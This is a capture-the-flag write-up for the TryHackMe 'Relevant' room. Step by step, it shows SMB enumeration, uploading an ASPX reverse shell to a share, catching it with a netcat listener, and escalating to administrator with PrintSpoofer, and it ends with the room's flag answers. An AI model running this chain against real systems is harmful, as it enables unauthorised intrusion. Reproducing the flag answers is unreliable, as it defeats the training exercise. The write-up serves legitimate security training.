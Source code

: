 # Relevant
## 14-06-2022
## level : medium

## Pre-Engagement Briefing

### Nmap Scanning ports and services
```
nmap -sV -p- -T4 10.10.143.95
```

### SMB shares listing 

```
smbclient -L 10.10.143.95
```
after listing the shares we can see that there is a unknown share. lets connect to that share.

```
smbclient \\\\10.10.143.95\\nt4wrksv
```

After connecting to that share we can see there is a file called `password.txt` so lets download it.
```
wget http://10.10.143.95:49663/nt4wrksv/passwords.txt
```

### Downloading a reverse shell for windows server

```
https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx
```

Now inside the shell just change the ip address to the local machine tun0 ip and the port number to 1234

Then upload the shell to the smb server using the `put shell.aspx` command

then just start a netcat listener on the local machine

```
nc -lvnp 1234
```

Now just open the link from browser

```
http://10.10.154.14:49663/nt4wrksv/shell.aspx
```

After this in our netcat listener we will get a reverse shell.

to get the userflag go to the `C:\Users\Bob\Desktop` 


and to read the flag use `type user.txt`

### Now we will move to the privilege escalation

in the reverse shell use following to see the privileges

```
whoami /priv
```

download printspoofer in the local machine 
```
https://github.com/dievus/printspoofer/blob/master/PrintSpoofer.exe
```
upload the PrintSpoofer.exe to the target using the smb.

Now from the reverse shell go to `C:\inetpub\wwwroot\nt4wrksv` a and run the `PrintSpoofer.exe` 
```
PrintSpoofer.exe -i -c cmd
```

After the above command we will get a new cmd prompt which will be of `administrator` privileged.

Now we have to nagigate to `C:\Users\Administrator\Desktop` and read the `root.txt` file using the `type root.txt` command.

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| user flag | THM{fdk4ka34vk346ksxfr21tg789ktf45} |
| root flag | THM{1fk5kf469devly1gl320zafgl345pv} |

